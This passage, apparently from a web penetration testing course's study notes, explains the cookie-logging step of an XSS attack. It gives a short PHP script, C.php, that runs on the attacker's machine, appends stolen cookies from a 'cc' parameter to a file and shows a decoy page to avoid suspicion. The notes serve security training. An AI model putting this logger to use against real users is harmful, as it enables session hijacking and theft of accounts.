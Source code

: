 ![Alt text](/assets/images/posts/ewptx/51.png){: .align-center}

![Alt text](/assets/images/posts/ewptx/52.png){: .align-center}



Cookie Recording & Logging:

Once the client-side has performed the request to our controlled CGI, its time to handle the request and manage the parameter sent.

Here, we define which information to collect, how to store it and the action to perform once this valuable information is obtained.

Lets suppose we have our PHP script C.php listening on our kali machine 

A basic example is to store the GET['cc'] content in a file.
```php
<?php
error_reporting(0); #turn off all error reporting
$cookie = $_GET['cc']; #request to log
$file = '_cc_.txt'; #the log file
$handle = fopen($file,"a"); # open log file in append mode
fwrite($handle,$cookie."\n"); # append the cookie
fclose($handle); #append the cookie
echo '<h1>Page Under Construction</h1>'; #trying to hide suspects
>
```
